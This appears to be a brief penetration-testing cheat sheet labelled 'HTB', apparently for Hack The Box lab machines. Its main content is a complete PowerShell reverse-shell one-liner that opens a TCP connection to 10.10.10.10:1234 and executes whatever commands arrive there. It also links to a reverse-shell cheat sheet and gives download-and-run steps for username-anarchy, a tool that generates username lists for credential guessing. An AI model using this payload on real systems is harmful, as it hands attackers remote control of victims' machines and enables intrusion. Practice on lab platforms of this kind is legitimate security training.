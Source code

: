 # HTB

- reverse shell
```
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
  ```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## username-anarchy
```
wget https://github.com/urbanadventurer/username-anarchy/archive/refs/tags/v0.6.zip
unzip v0.6.zip
mv username-anarchy-0.6/username-anarchy .
./username-anarchy -i names.txt > usernames.txt
```
